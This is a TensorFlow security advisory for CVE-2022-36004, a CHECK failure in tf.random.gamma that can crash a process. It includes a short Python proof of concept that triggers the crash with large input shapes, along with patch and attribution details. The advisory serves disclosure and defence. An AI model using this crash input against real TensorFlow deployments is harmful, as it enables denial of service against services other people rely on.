## TFSA-2022-132: `CHECK` fail in `tf.random.gamma`

### CVE Number
CVE-2022-36004

### Impact
When `tf.random.gamma` receives large input shape and rates, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(4,), dtype=tf.int32, maxval=65536)
arg_1=tf.random.uniform(shape=(4, 4), dtype=tf.float64, maxval=None)
arg_2=tf.random.uniform(shape=(4, 4, 4, 4, 4), dtype=tf.float64, maxval=None)
arg_3=tf.float64
arg_4=48
arg_5='None'
tf.random.gamma(shape=arg_0, alpha=arg_1, beta=arg_2, dtype=arg_3, seed=arg_4, name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [552bfced6ce4809db5f3ca305f60ff80dd40c5a3](https://github.com/tensorflow/tensorflow/commit/552bfced6ce4809db5f3ca305f60ff80dd40c5a3).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
